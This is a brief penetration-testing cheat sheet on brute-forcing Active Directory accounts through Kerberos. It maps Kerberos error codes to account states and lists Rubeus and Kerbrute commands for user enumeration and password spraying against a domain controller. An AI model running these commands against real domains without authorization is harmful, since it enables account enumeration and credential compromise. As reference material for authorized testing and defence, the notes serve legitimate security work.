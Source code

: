 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#rubeus #kerbrute
# Brute Force
We can brute force username and password based on the errors that we get from kerberos.
- `KDC_ERR_PREAUTH_FAILED`: Incorrect password
- `KDC_ERR_C_PRINCIPAL_UNKNOWN`: Invalid username
- `KDC_ERR_WRONG_REALM`: Invalid domain
- `KDC_ERR_CLIENT_REVOKED`: Disabled/Blocked user
### Rubeus
```powershell
./rubeus.exe brute /password:<password> /noticket
```
### Kerbrute (go)
1. User Enumeration
```bash
./kerbrute userenum -d mydomain.local usernames.txt
```
2. Password brute-force
```bash
cat user_password.txt | ./kerbrute -d mydomain.local bruteforce -
```
### Kerbrute.py
```bash
python kerbrute.py -domain mydomain.local -users user.txt -passwords pass.txt -dc-ip <ip>
```


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`

